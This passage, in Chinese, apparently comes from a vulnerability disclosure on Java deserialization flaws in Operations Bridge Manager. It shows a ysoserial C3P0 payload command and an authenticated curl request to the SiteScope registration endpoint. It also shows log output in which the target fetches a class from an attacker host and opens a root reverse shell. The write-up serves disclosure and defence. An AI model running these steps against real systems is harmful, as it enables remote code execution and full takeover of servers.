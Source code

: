 用我们新行编译的 ysoserial 生成有效载荷:

```
java -jar ysoserial-0.0.6-SNAPSHOT-all-c3p0-0.9.1.2.jar C3P0 "http://10.10.10.1:4444/:ExploitClass" > /tmp/payload.ser
```

```
COOKIE='Cookie: JSESSIONID=xQJJmHDwOQMlAL93PaLPE4PA; LWSSO_COOKIE_KEY=mqx8GAJdW7M8dh5bO99hiZjXAgOHmdteaLsy_c9N77F6n2fFB_XWpe0wDHnpG-x2RbOHNm3H7hjHsmYpRc4PPg2ohEFN7duztvJD0M_u3GUcg_YUJPy5c6ewbqi61FRllh0AoNwAb5K-1fN-uRVK0c8yEVVIkBbxn9vxsCEhofRbZNdtnDQMb3WUeb7yInwRAzfPICWMnE5iuJ_TTyTDlw..;'

curl -i -s -k -X $'POST' \
  -H $'Host: 10.10.10.99' \
  --data-binary @/tmp/payload.ser \
  -H $'Content-Type: application/octet-stream' -H 'Expect:' -H "$COOKIE"  \
   $'https://10.10.10.99/legacy/topaz/sitescope/conf/registration'
```

样本 G：curl 请求触发 Java 反序列化。

这将导致 Python web 服务器收到 ExploitClass 的请求，然后是我们的反向 shell:

```
10.10.10.99 - - [] "GET /ExploitClass.class HTTP/1.1" 200 -
connect to [10.10.10.1] from (UNKNOWN) [10.10.10.99] 55340
whoami
root
id
uid=0(root) gid=0(root) groups=0(root) context=system_u:system_r:unconfined_service_t:s0
uname -a
Linux centos7.nat 3.10.0-1062.18.1.el7.x86_64 #1 SMP Tue Mar 17 23:49:17 UTC 2020 x86_64 x86_64 x86_64 GNU/Linux
ls
hpbsmd.pid
libwrapper.so
nannyWrapperRunner.sh
wrapper
wrapper.jar
pwd
/opt/HP/BSM/supervisor/wrapper
```

请注意，这个漏洞只能被登录到主 Web 应用程序的攻击者利用。不幸的是，对于攻击者来说，由于漏洞 #1 中讨论的诊断账户不能用于登录到主 Web 应用程序，因此只有通过其他方式实现身份验证时，该漏洞仍然可以利用。

为了运行 Snippet G 中的漏洞，首先使用有效账户在 443 端口上对主 Web 应用程序进行身份验证，然后在执行 curl 命令之前将 COOKIE 变量改为身份验证后收到的 LWSSO_COOKIE_KEY。

Linux 和 Windows 版本的 OBM 都会受到这个漏洞的影响。

**4：SAMDownloadServlet 中不安全的 Java 反序列化**

CWE-502。不受信任数据的解串联

CVE-2020-11853 / ZDI-20-1328

风险分类。危急
